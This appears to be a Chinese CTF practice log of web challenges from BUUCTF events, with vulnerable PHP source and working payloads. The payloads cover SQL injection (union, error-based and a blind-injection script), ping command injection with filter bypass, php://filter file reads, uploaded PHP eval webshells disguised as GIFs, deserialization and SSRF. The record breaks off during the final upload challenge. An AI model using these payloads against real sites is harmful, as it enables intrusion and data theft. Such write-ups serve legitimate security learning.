# My bad

## 2021/06/30

### EasySQL

> 极客大挑战 2019

#### 题目

题目本身就是把用户输入放进一对单引号之中，想办法闭合单引号即可，无难度

#### payload

```
?username=bme&password=1' or '1'='1
```

## 2021/07/01

### Have fun

> 极客大挑战 2019

#### 题目

题目比较简单，打开页面源码，发现源码也包含在其中，发送Get请求`cat=dog`得到`flag`

```php
$cat=$_GET['cat'];
echo $cat;
if($cat=='dog'){
    echo 'Syc{cat_cat_cat_cat}';
}
```

#### payload

```
?cat=dog
```

### Include

> ACTF 2020

#### 题目

F12打开源码，发现一个`?file=flag.php`链接，点进去发现啥都没有，那只能先试试**伪协议**文件包含flag.php，得到base64的代码，解码后得到`flag`

#### payload

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

### Secret File

> 极客大挑战 2019

#### 题目

F12打开源码，发现一个`./Archive_room.php`的链接，点进去有一个**secret**按钮，点进去发现查阅结束，需要用Burp截包，截下数据包发现，有一个**302跳转**，其中包含`secr3t.php`页面，发现源代码。

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

还是经典的伪协议读取，读取`flag.php`，得到`flag`

#### payload

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

### Exec

> ACTF 2020

#### 题目

给了一个可以ping的框，F12打开源码，发现是命令执行，直接在框里输入命令绕过`127.0.0.1;ls`，得到目录下文件`index.php`，cat命令阅读源码，`ls`搜索目录发现上层目录中有`flag`文件，获取`flag`

```php
<?php 
if (isset($_POST['target'])) {
	system("ping -c 3 ".$_POST['target']);
}
?>
```

#### payload

```
127.0.0.1;ls -al /
```

## 2021/07/02

### LoveSQL

> 极客大挑战 2019

#### 题目

从名字就可以看出来，SQL注入的题，进来是个登录页面，随便输一下，Get请求发送`username`和`password`两个参数，从`password`下手试一下万能密码，竟然登录进去了，看起来是要在库里面找东西，还有回显的`username`和`password`，直接注入，比较简单

#### payload

```
?username=1&password=1' union select 1,2,'3

?username=1&password=1' union select 1,database(),'3 // return geek

?username=1&password=1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='geek'),'3 //return l0ve1ysq1

?username=1&password=1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'),'3 //return id,username,password

?username=1&password=1' union select 1,(select group_concat(password) from l0ve1ysq1),'3 // return flag
```

### Ping Ping Ping

> GXYCTF 2019

#### 题目

还是个ping命令的题，直接上`;ls`，回显出两个文件，直接`cat`读取，被拦截了（），试试绕过，发现很多符号也被过滤了，用命令执行的绕过`$IFS$9`来绕过空格，显示出源码，发现`flag`被正则表达式包住了，这里采用拼接的形式进行绕过

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```

#### payload

```
?ip=;a=g;cat$IFS$9fla$a.php
```

### Knife

> 极客大挑战 2019

#### 题目

题目没啥好说的，直接**蚁剑/菜刀**连就行了

#### payload

### Http

> 极客大挑战 2019

#### 题目

Burp搜索站点，可以发现一个隐藏页面`Secret.php`，访问发现返回`It doesn't come from 'https://www.Sycsecret.com'`，那就添加`Referer`，发现又返回`Please use "Syclover" browser`，改`User-Agent`，发现又返回`No!!! you can only read this locally!!!`，添加`X-Forwarded-For:127.0.0.1`，拿到`flag`

#### payload

```http
GET /Secret.php HTTP/1.1
Host: node3.buuoj.cn:28969
Referer:https://www.Sycsecret.com
X-Forwarded-For:127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent:Syclover
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a52dafb251c-0133abcdf6c6a9-6373264-384000-17a52dafb261436
Connection: close
```
## 2021/07/05

### Upload

> 极客大挑战 2019

#### 题目

题目是一道上传类型的题目，打开页面就能看到一个上传页面，先随便弄个图片马上去

```php
GIF89a
<?php
	eval($_POST['bme']);
?>
```

直接被拦截，提示我们上传的代码中含有`<?`，看来是有waf的存在，换一种写法

```php
GIF89a
<script language="php">
	eval($_POST['bme']);
</script>
```

但是我们的尾缀名还是`.gif`，要解析还需要`php`格式，所以还要对后缀进行绕过，如`php php3 php4 php5 phtml`，这里采用`phtml`进行绕过，上传好图片马之后，只需要用**蚁剑**去连接就行，路径在`/upload`下

#### payload

```http
POST /upload_file.php HTTP/1.1
Host: f1f6fecf-466a-46c0-b308-aec9bb73266c.node4.buuoj.cn
Content-Length: 344
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://f1f6fecf-466a-46c0-b308-aec9bb73266c.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3x6kQ4KShfkzO4oS
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://f1f6fecf-466a-46c0-b308-aec9bb73266c.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

------WebKitFormBoundary3x6kQ4KShfkzO4oS
Content-Disposition: form-data; name="file"; filename="bme.phtml"
Content-Type: image/gif

GIF89a
<script language="php">
	eval($_POST['bme']);
</script>
------WebKitFormBoundary3x6kQ4KShfkzO4oS
Content-Disposition: form-data; name="submit"

鎻愪氦
------WebKitFormBoundary3x6kQ4KShfkzO4oS--
```

### PHP

> 极客大挑战 2019

#### 题目

进网站翻源码，发现啥也没用，有一处关键信息**我有一个良好的备份网站的习惯**，说明这是一个**信息泄露**类型的题目，直接工具/手动翻，常见的包括`.php~ .php.bak .swp .swn .swo www.zip .php.old .php.txt`等等，这里找出来是`www.zip`，下载源码翻一下

```php
// index.php
<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
?>
```

```php
// class.php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();     
        }
    }
}
?>
```

```php
// flag.php
<?php
	$flag = 'Syc{dog_dog_dog_dog}';
?>
```

很明显，是一道反序列的化的题目，难点在绕过`__wakeup`，利用`CVE-2016-7124`，属性的个数大于实际个数就能绕过，还有一个问题点，就是反序列化后的字符串，`private`属性是包括不可见字符的，所以在上传的时候，要加上去

#### payload

```php
<?php
include class.php;

$name = new Name('admin',100);
echo serialize($name);

?>

// O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

## 2021/07/06

### Upload

> ACTF 2020 新生赛

#### 题目

这个题也是个上传的基本题，利用图片马加`phtml`绕过，会得到上传路径，蚁剑连接即可

#### payload

```http
POST / HTTP/1.1
Host: 44bc62a4-017a-4355-bb9e-9eea2f0ca8c0.node4.buuoj.cn
Content-Length: 327
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://44bc62a4-017a-4355-bb9e-9eea2f0ca8c0.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBqT5nlAPBf5GT9T5
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://44bc62a4-017a-4355-bb9e-9eea2f0ca8c0.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

------WebKitFormBoundaryBqT5nlAPBf5GT9T5
Content-Disposition: form-data; name="upload_file"; filename="bme.phtml"
Content-Type: image/gif

GIF89a
<?php
eval($_POST['bme']);
?>
------WebKitFormBoundaryBqT5nlAPBf5GT9T5
Content-Disposition: form-data; name="submit"

upload
------WebKitFormBoundaryBqT5nlAPBf5GT9T5--
```

### BackupFile

> ACTF 2020 新生赛

#### 题目

同样是一道**信息泄露**类型的题目，源码在`index.php.bak`

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

我们需要让我们的`key`，绕过`is_numeric`，那我们的`key`就需要为数字，紧接着有一个弱等于`==`，**由于`php`的弱类型特性，导致数字与包含数字内容的字符串比较时，字符串会从头部的数值部分进行截取**，简单来说这里就是`123`

#### payload

```
?key=123
```

### BuyFlag

> 极客大挑战 2019

#### 题目

刚进去的首页没什么有用的信息，主要信息都藏在右上角的`MENU`按钮中的`PAYFLAG`中，页面提供了一些信息

- FLAG NEED YOUR 100000000 MONEY
- You must be a student from CUIT!!!
- You must be answer the correct password!!!

在向下审计，会发现一段代码

```php
<?php
//    ~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
```

这里提示我们**POST**`money`和`password`，首先查看代码，意思就是`password`需要被提交一个值（`isset()`），这个值不能为数字类型（`isnumeric()`），同时，这个值需要和`404`弱等于

```http
POST /pay.php HTTP/1.1
Host: 037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn/pay.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; user=1
Connection: close

password=404a&money=100000000
```

这里我们让`passwrod=404a`，`money=100000000`，我们还发现cookie中包含一个`user=0`，将他置为1，发送，返回得到`Nember lenth is too long`，说明我们的`money`过长，后台大概率采用`strcmp`函数比较，对于这个函数，数组方法绕过即可

#### payload

```http
POST /pay.php HTTP/1.1
Host: 037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn/pay.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; user=1
Connection: close

password=404a&money[]=100000000
```

### Easy MD5

> BJDCTF 2020

#### 题目

进去就是个输入框，别的啥也没有，输入一下试试，在返回包中抓到提示字段`Hint: select * from 'admin' where password=md5($pass,true)`，这说明我们的后台是把我们的输入转换为`md5`，进行比较，这里我们采用一个特殊值`ffifdyop`，这个数进行`md5`之后的值为`276F722736C95D99E921722CF9ED621C`，而MySQL会把`Hex`编码，转为`Ascii`进行使用，而这段代码的`Hex`解码为`'or'6�]��!r,��b`，与前面构成了一个永真式，进行绕过，进入下一部分，阅读源码

```php
<?php
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
// wow, glzjin wants a girl friend.
```

这里是一个**md5弱等于**的问题，**弱等于**会把以`0e`开头作为`0`处理，所以我们只要找出两个`md5`值为`0e`开头的字符串即可，进入下一部分

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
```

这次换为了**强等于**，有两种思路，得到结果

- 找出真正相等的字符串，**md5不安全性**
- 数组绕过

#### payload

```
/?password=ffifdyop
/?a=s878926199a&b=s155964671a
/?param1[]=1&param2[]=2
```

### NiZhuanSiWei

> ZJCTF 2019

#### 题目

进去发现源码

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

这里需要上传三个参数`text`，`file`，`password`，`text`需要引入一个包含`welcome to the zjctf`的文件，这里可以采用`php://input`伪协议的方法，或者采用远程引入的方法；`file`参数则是不能包含`flag`，我们看到注释中包含`useless.php`，我们先用`php://filter`伪协议读取`useless.php`的源代码，base64解码；password暂时还没什么利用方向

```php
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

我们读取到了`useless.php`的源代码，现在要利用他来进行我们的反序列化，这时候前面的`password`就派上了用场，因为`Flag`类中，包括我们的`__toString`魔术方法，会在我们把**对象当做字符串使用时调用**，利用我们的`Flag`类进行反序列化拿到`flag`

#### payload

```http
POST /?text=php://input&file=php://filter/read=convert.base64-encode/resource=useless.php&password=1 HTTP/1.1
Host: 2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn/?text=php://input&file=php://filter/read=conver.base64-encode/resource=useless.php&password=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

welcome to the zjctf
```

```php
<?php
include useless.php
    
$res = new Flag();
$res->file = 'flag.php';
echo serialize($res);

// O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

```http
POST /?text=php://input&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} HTTP/1.1
Host: 2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn
Content-Length: 20
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn/?text=php://input&file=php://filter/read=conver.base64-encode/resource=useless.php&password=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

welcome to the zjctf
```

## 2021/07/07

### HardSQL

> 极客大挑战 2019

#### 题目

题目已经明示了**SQL注入**，直接开始试，发现存在waf，先试试过滤了哪些字符，包括`and or | & union space hex ascii`等一些常见的函数和符号，但是有几个符号没有被过滤，包括`^ ()`，分别用来取代`and or`和`space`，而`union`被过滤，我们需要另外一种方式进行注入，当我们输入一些错误信息时，会有回显，代表这道题目不太可能是**盲注**，通过测试发现报错注入的`extractvalue`和`updatexml`两个函数并没有被过滤，这道题我们可以采用这种方法，进行注入，先试试`?username=bme&password=1'^extractvalue(1,concat(0x7e,database()))%23`，发现有回显`XPATH syntax error: '~geek'`，说明思路是正确的，接下来继续注入就行，值得注意的是**Xpath报错注入是有位数上限**的，需要借助`right`和`left`函数，显示出完整的`flag`

#### payload

```
// username=bme
password=1'^extractvalue(1,concat(0x7e,database()))%23
// XPATH syntax error: '~geek'
password=1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))%23
// XPATH syntax error: '~H4rDsq1'
password=1'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))%23
// XPATH syntax error: '~id,username,password'
password=1'^extractvalue(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1))))%23
// XPATH syntax error: '~flag{7d35b909-3de4-4ead-917f-50'
password=1'^extractvalue(1,(select(left(password,40))from(H4rDsq1)))%23
// XPATH syntax error: '{7d35b909-3de4-4ead-917f-5023f5f'
password=1'^extractvalue(1,(select(right(password,30))from(H4rDsq1)))%23
// XPATH syntax error: 'de4-4ead-917f-5023f5f3f8e3}'
```

## 2021/07/12

### Hack World

> CISCN 2019 华北赛区

#### 题目

进去是一个登录页面，输入试一下，发现1,2是正常回显，之后就不是了，很明显是一个数字型的注入



测试一下过滤了哪些字符，`space`,`union`,`|`,`%`等被过滤掉了，但是`()`,`ascii`,`database()`,`substr()`等并没有被过滤，关键是把后面和前面连接起来，这里有两种方法

- `^`
- 直接等于，因为是数字型

盲注跑脚本就可以了

#### payload

```python
import requests
import base64
import sys
import string
import hashlib
import io
import time

x = string.printable
flag = ""
url = "http://2ab3de45-45ff-4613-8d75-e1d644e26d7d.node4.buuoj.cn/index.php"
payload={
	"id" : ""
}
try:
	for i in range(0,60):
		for j in x:
			payload["id"] = "(ascii(substr((select(flag)from(flag)),%s,1))=%s)"%(str(i),ord(j))
			s = requests.post(url,data=payload)
			#print(j)
			if "Hello" in s.text:
				flag += j
				print(flag)
				break
			else:
				time.sleep(0.5)
except:
	print(flag)
```

## 2021/07/13

### BabySQli

> GXYCTF 2019

#### 题目

看题目是个**SQL注入**的题，简单输入，发现回显中有提示信息

```
MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5
// base32
c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw==
// base64
select * from user where username = '$name'
```

这道题的后台是采用这种方法实现的，我没想到，试了半天，学习一下

```php
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 
<title>Do you know who am I?</title>
<?php
require "config.php";
require "flag.php";

// 去除转义
if (get_magic_quotes_gpc()) {
	function stripslashes_deep($value)
	{
		$value = is_array($value) ?
		array_map('stripslashes_deep', $value) :
		stripslashes($value);
		return $value;
	}

	$_POST = array_map('stripslashes_deep', $_POST);
	$_GET = array_map('stripslashes_deep', $_GET);
	$_COOKIE = array_map('stripslashes_deep', $_COOKIE);
	$_REQUEST = array_map('stripslashes_deep', $_REQUEST);
}

mysqli_query($con,'SET NAMES UTF8');
$name = $_POST['name'];
$password = $_POST['pw'];
$t_pw = md5($password);
$sql = "select * from user where username = '".$name."'";
// echo $sql;
$result = mysqli_query($con, $sql);


if(preg_match("/\(|\)|\=|or/", $name)){
	die("do not hack me!");
}
else{
	if (!$result) {
		printf("Error: %s\n", mysqli_error($con));
		exit();
	}
	else{
		// echo '<pre>';
		$arr = mysqli_fetch_row($result);
		// print_r($arr);
		if($arr[1] == "admin"){
			if(md5($password) == $arr[2]){
				echo $flag;
			}
			else{
				die("wrong pass!");
			}
		}
		else{
			die("wrong user!");
		}
	}
}

?>
```

#### payload

```http
POST /search.php HTTP/1.1
Host: d4f0ae3a-3daf-4e5c-af1a-0c06a2b745ba.node4.buuoj.cn
Content-Length: 73
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://d4f0ae3a-3daf-4e5c-af1a-0c06a2b745ba.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://d4f0ae3a-3daf-4e5c-af1a-0c06a2b745ba.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

name=1' union select 1,'admin','698458dc93cf1f38bd6a9436c20a4e34'#&pw=bme
```

## 2021/07/14

### Fakebook

> 网鼎杯 2018

#### 题目

题目进去之后是一个界面



login是登录，join是注册，先扫一波后台，发现`robots.txt`



有备份文件，下载下来

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

很明显和反序列化有关，但是暂时没发现利用点，先注册一个账号，登陆一下



点击`1`，发现显示出来百度的页面信息



结合上面的代码，可以想到是`SSRF`的问题，因为源代码中限制了协议类型，无法绕过，需要借助**反序列化**，将payload插入，读出`flag`，但是目前还是没有利用点，试一下展示页面的`no`参数，发现存在**SQL注入**，首先采用联合查询，`no=-1/**/union/**/select/**/1,2,3,4`，查看页面信息



发现路径为`/var/www/html`，继续采用**报错注入**，可以爆出数据库，表，列名，可以发现其中`data`字段就是存储反序列化数据的字段



然后采用联合查询的方法，将序列化数据导入即可

#### payload

```
view.php?no=1^extractvalue(1,concat('~',database()))%23
// [*] query error! (XPATH syntax error: '~fakebook')
view.php?no=1^extractvalue(1,concat('~',  (select(group_concat(table_name))from(information_schema.tables)where((table_schema)=('fakebook')))))%23
// [*] query error! (XPATH syntax error: '~users')
view.php?no=1^extractvalue(1,concat('~',  (select(group_concat(column_name))from(information_schema.columns)where((table_name)=('users')))))%23
// [*] query error! (XPATH syntax error: '~no,username,passwd,data,USER,CU')
no=-1/**/union/**/select 9,5,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
// return flag
```

## 2021/07/15

### 你传你M呢

> MRCTF 2020

#### 题目

这个题很明显是一道**文件上传**的题目，进入页面


发现了一个上传的地方，就可以开始试验了，先传一个正常文件

